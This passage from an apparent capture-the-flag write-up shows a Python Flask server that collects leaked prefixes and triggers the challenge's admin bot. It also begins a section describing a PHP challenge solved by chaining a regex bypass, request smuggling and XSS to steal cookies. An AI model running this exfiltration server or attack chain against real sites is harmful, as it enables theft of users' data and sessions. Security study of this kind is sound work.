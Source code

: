 ```py


@app.route('/leak')
def leak():
   global known_prefix
   prefixs = request.args.get('id')
   known_prefix = prefixs
   return Response('ok', mimetype='text/plain')
  
def submit_bot():
   print("Submiting to bot")
   req.post(HOST+"/bot/report", json={
   "note_id":redirect
   })


if __name__ == '__main__':
   print("[*] Waiting for leak to trigger...")
   threading.Thread(target=submit_bot, daemon=True).start()
   app.run(port=8000, host="0.0.0.0")
```

## [445 pts] Damn, I Love PHP!

![DOM1](/assets/img/php.png)

The challenge involved a multi-step attack chain exploiting weak input filtering, HTTP request smuggling, and client-side XSS to exfiltrate sensitive data. The backend attempted to sanitize inputs using a naive regex-based blocklist but failed to account for indirect invocation paths in JavaScript. By chaining a regex bypass with a crafted request smuggling payload, we triggered a server-side /report/ call containing a malicious URL. The injected payload abused JavaScript quirks to execute arbitrary code and extract cookies via location.pathname.

### Bypass regex to gain admin (analysis using default PHP PCRE

```php
if (preg_match('/(admin)+/s', $newRole) ||
   preg_match('/[^\x20-\x7E]/', $newRole) ||
   !preg_match('/^[a-z0-9]+$/', $newRole)
```